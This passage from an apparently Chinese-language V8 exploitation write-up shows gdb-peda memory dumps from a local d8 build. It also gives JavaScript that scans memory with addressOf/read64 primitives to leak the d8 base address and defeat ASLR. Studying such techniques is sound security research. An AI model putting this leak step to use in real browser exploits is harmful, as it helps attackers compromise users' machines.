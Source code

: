 ```bash
mapped : 0x3a9ed41809d3 --> 0x181f49000055df6d 
mapped : 0x3a9ed41809fb --> 0x180b71000055df6d 
mapped : 0x3a9ed4180a0b --> 0x181f49000055df6d 
mapped : 0x3a9ed4180a3b --> 0x180b71000055df6d 
mapped : 0x3a9ed4180a4b --> 0x180801000055df6d 
mapped : 0x3a9ed4180bf3 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180c03 --> 0x181f49000055df6d 
mapped : 0x3a9ed4180c2b --> 0x180b71000055df6d 
mapped : 0x3a9ed4180c3b --> 0x181f49000055df6d 
mapped : 0x3a9ed4180c63 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180c73 --> 0x181f49000055df6d 
mapped : 0x3a9ed4180c9b --> 0x180b71000055df6d 
mapped : 0x3a9ed4180cab --> 0x180b71000055df6d 
--More--(50/257)
mapped : 0x3a9ed4180cbb --> 0x180801000055df6d 
mapped : 0x3a9ed4180dab --> 0x180b71000055df6d 
mapped : 0x3a9ed4180dbb --> 0x180801000055df6d 
mapped : 0x3a9ed4180ec3 --> 0x180b71000055df6d 
mapped : 0x3a9ed4180ed3 --> 0x180941000055df6d 
mapped : 0x3a9ed4180f1b --> 0x180b71000055df6d 
mapped : 0x3a9ed4180f2b --> 0x180801000055df6d 
mapped : 0x3a9ed4181033 --> 0x180b71000055df6d 
mapped : 0x3a9ed4181043 --> 0x181f49000055df6d 
mapped : 0x3a9ed4181073 --> 0x180b71000055df6d 
mapped : 0x3a9ed4181083 --> 0x181f49000055df6d

gdb-peda$ x/8gx 0x3a9ed4181083 - 3
0x3a9ed4181080: 0x000055df6dff6d40      0x00001ca69a181f49
0x3a9ed4181090: 0x0000000621887fea      0x00000f6ee7b9c469
0x3a9ed41810a0: 0x00001ca69a181f49      0x000000059b40fce6
0x3a9ed41810b0: 0x00000f6ee7b9c4f9      0x00001ca69a180b71

gdb-peda$ vmmap 0x000055df6dff6d40
Start              End                Perm      Name
0x000055df6dfec000 0x000055df6eab4000 r-xp      /home/wz/v8/v8/out.gn/x64.release/d8

gdb-peda$ distance 0x000055df6dff6d40 0x000055df6dd59000
From 0x55df6dff6d40 to 0x55df6dd59000: -2743616 bytes, -685904 dwords

```
最终穷搜的代码如下：
```js
var a = [1.1,2.2,3.3];
var start_addr = addressOf(a) - 0x8000n;
console.log("[*] address of a is 0x"+hex(start_addr));
var leak_d8_addr = 0n;
while(1)
{
    start_addr = start_addr - 8n;
    leak_d8_addr = read64(start_addr);
    if(((leak_d8_addr & 0x0000ff0000000fffn) == 0x0000550000000320n) || ((leak_d8_addr & 0x0000ff0000000fffn) == 0x0000560000000320n)){
        console.log("leak process addr success: " + hex(leak_d8_addr));
        break;
    }
}
console.log("[*] Done.");
proc_base = leak_d8_addr - 0x2b0320n;
console.log("[*] proc base :0x"+hex(proc_base));
```

